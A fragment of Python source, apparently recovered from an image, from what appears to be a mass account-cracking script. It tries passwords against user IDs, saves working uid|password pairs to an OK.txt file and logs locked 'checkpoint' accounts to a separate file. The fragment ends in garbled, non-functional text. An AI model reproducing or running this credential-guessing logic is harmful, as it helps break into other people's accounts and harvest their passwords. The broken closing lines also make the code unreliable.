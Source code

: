                 open('/sdcard/INNOCENT/OK.txt', 'a').write( uid+' | '+ps+'\n')

                oks.append(uid)

                break

	            elif 'checkpoint' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[82:97]

                print(f"\033[1;94m[INNOCENT-CP] {cid}|{ps}")

                open('/sdcard/INNOCENT-CP.txt', 'a').write( uid+' | '+ps+' \n')

                cps.append(uid)

                break

            else:

                continue

        loop+=1

    except:

        pass0750

        pass zaxo1234

        

Main()
